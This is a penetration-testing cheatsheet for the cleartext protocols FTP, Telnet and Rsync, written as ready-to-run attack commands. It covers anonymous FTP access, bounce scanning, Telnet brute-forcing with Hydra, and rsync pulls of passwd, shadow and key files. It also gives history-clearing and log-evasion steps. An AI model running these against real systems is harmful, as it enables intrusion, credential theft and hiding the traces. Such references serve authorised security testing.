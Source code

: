 # Cleartext Protocols Cheatsheet

## FTP

### Service Discovery & Banner Grabbing
* Basic FTP connection: `ftp <target_ip>`
* Netcat banner grab: `echo "QUIT" \| nc <target_ip> 21`
* Nmap service detection: `nmap -sV -p 21 <target_ip>`
* Nmap with FTP-specific scripts: `nmap --script ftp-anon,ftp-bounce,ftp-brute,ftp-proftpd-backdoor,ftp-vsftpd-backdoor -p 21 <target_ip>`

### Anonymous Access
* Username: `anonymous`
* Password (if needed): `anonymous@example.com` (or any other existing or non-existing email address)

### FTP Bounce Scanning
* Use FTP server as proxy for port scanning: `nmap -b anonymous:anonymous@<ftp_server> <internal_target>`

### Data Exfiltration
* Bulk recursive download: `wget -r ftp://anonymous:anonymous@<target_ip>`
* Advanced FTP client: `lftp ftp://anonymous:anonymous@<target_ip>` → `mirror <remote_path> <local_path>`

## Telnet

### Service Discovery
* Basic Telnet connection: `telnet <target_ip> 23`
* Nmap service detection: `nmap -sV -p 23 <target_ip>`
* Nmap with Telnet-specific scripts: `nmap --script telnet-brute,telnet-encryption,telnet-ntlm-info -p 23 <target_ip>`

### Port Scanning
* Scan common Telnet ports: `nmap -p 23,2223,2322,2323,8023,9999,10001 <target_ip>`
* Service detection on multiple ports: `nmap -sV -p 23,2223,2322,2323,8023,9999,10001 <target_ip>`

### Hydra
* Hydra brute force: `hydra -L usernames.txt -P passwords.txt telnet://<target_ip> -vV -t4 -I`

### Initial Reconnaissance Commands

### Session Enumeration

| Command | Description |
|---------|-------------|
| `who` | Currently logged-in users |
| `w` | System users and their processes |
| `last` | Recent login/logout history |
| `users` | List of current usernames |
| `tty` | Current terminal name |
| `ps -t $(tty)` | Processes running on current terminal |

### Session Cleanup

| Command | Description |
|---------|-------------|
| `history -c` | Clear command history |
| `unset HISTFILE` | Disable history logging |
| `rm ~/.bash_history 2>/dev/null` | Remove history file |
| `unalias ls 2>/dev/null` | Remove command aliases |

## Rsync

### Service Discovery
* Basic Rsync service test and module listing: `rsync <target_ip>::`
* Explicit module listing: `rsync --list-only <target_ip>`
* Scan common Rsync ports: `nmap -p 873,8873,9873 <target_ip>`
* Service detection: `nmap -sV -p 873 <target_ip>`

### Module Enumeration
* Detailed module information: `rsync -av --list-only <target_ip>::<module_name>`
* Test common modules: `for module in backup home www data etc opt var; do echo "Testing module: $module"; rsync --list-only <target_ip>::$module 2>/dev/null; done`

### File Type Hunting
* Search for specific valuable file types: `rsync -avz --list-only <target_ip>::<module>/ \| grep -E '\.(conf\|cfg\|ini\|bak\|sql\|log)$'`

### Data Extraction
* Complete module mirror: `rsync -avz <target_ip>::<module>/ ./rsync_dump/`
* Selective file extraction: `rsync -avz --include="*.conf" --include="*.cfg" --exclude="*" <target_ip>::<module>/ ./configs/`
* Bandwidth-limited extraction: `rsync -avz --bwlimit=100 <target_ip>::<module>/ ./slow_dump/`

### High-Value File Extraction
```bash
rsync -avz --include="*passwd*" --include="*shadow*" --include="*config*" \
--include="*.conf" --include="*.cfg" --include="*.ini" \
--include="*.bak" --include="*.sql" --include="*.key" \
--include="*.pem" --exclude="*" <target_ip>::<module>/ ./intel/
```

### Write Access Testing
1. Create test file: `echo "rsync_test_$(date)" > test_file.txt`
2. Attempt upload: `rsync -avz test_file.txt <target_ip>::<module>`
3. Verify upload: `rsync --list-only <target_ip>::<module>/ \| grep test_file.txt`

## Detection Evasion & Operational Security

### Traffic Obfuscation

| Technique | Command Example |
|-----------|-----------------|
| Bandwidth limiting | `rsync -avz --bwlimit=50 --delay-updates <target>::<module>/ ./stealth_dump` |
| Randomized delays | `sleep $((RANDOM % 300 + 60))` (1-6 minute random delay) |

### Log Evasion

| Protocol | Evasion Technique |
|----------|-------------------|
| FTP | Use realistic email addresses for anonymous login |
| Telnet | Clear command history before disconnect |
| Rsync | Use bandwidth limiting to appear as legitimate sync |

## Common Service Implementations

### FTP Implementations

| Implementation | Typical Banner |
|----------------|----------------|
| vsftpd | `220 (vsFTPd 3.0.3)` |
| ProFTPD | `220 ProFTPD Server` |
| Pure-FTPd | `220 Pure-FTPd Server` |
| FileZilla Server | `220-FileZilla Server` |
| Microsoft IIS | `220 Microsoft FTP Service` |

### Telnet Implementations

| Implementation | Typical Identifier |
|----------------|-------------------|
| Linux telnetd | `Debian GNU/Linux` or similar OS banner |
| Windows Telnet Server | `Welcome to Microsoft Telnet Server` |
| Cisco IOS | `User Access Verification` |
| BusyBox | `Welcome to ... (built-in shell)` |

Reach out: https://linktr.ee/january1073
